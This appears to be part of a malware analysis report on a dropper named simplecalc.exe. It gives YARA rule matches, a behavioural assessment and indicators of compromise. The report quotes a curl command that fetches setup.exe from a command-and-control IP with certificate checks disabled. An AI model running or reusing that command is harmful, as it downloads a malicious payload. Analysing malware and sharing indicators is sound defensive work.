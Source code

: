 | Attribute | Value |
|-----------|-------|
| **File name** | simplecalc.exe |
| **Classification** | MALICIOUS |
| **YARA Rule Match** | is_thugStyleDropper |

### YARA Detection Results

**Matched Strings:**
- `$curl`: curl -k -o setup.exe https://165.73.244.11/installers/setup.exe

**Matched Conditions:**
- Abnormal number of exports (outside 5-10 range)
- Abnormal number of sections (outside 6-8 range)
- Valid PE headers confirmed (MZ and PE signatures)

### Cursory Analysis YARA Matches

- **detect_pe_exe**: Positive - Contains DOS stub
- **hasDOStext**: Positive - DOS mode string present
- **EXESectionsCount**: Positive - Abnormal section count detected
- **FirstSectionFormat**: Positive - MZ header present

### Behavioral Assessment

This file functions as a dropper designed to retrieve the setup.exe payload from a remote server. The embedded curl command reveals the complete attack infrastructure, including the command and control server IP address (165.73.244.11) and download path. The use of the `-k` flag in the curl command indicates the malware bypasses SSL certificate validation, allowing communication with potentially self-signed or invalid certificates. This file serves as the intermediary between the initial packed dropper and the final embedded PE installer.

### Indicators of Compromise

**Network Indicators:**
- C2 Server IP: 165.73.244.11
- Download URL: https://165.73.244.11/installers/setup.exe
- Protocol: HTTPS with certificate validation bypass

**File Artifacts:**
- Curl command string embedded
- Abnormal PE structure

**Behavioral Indicators:**
- Downloads setup.exe to local system
- Uses insecure SSL practices

---

## Sample 4: exe_windows_64.exe (Benign)
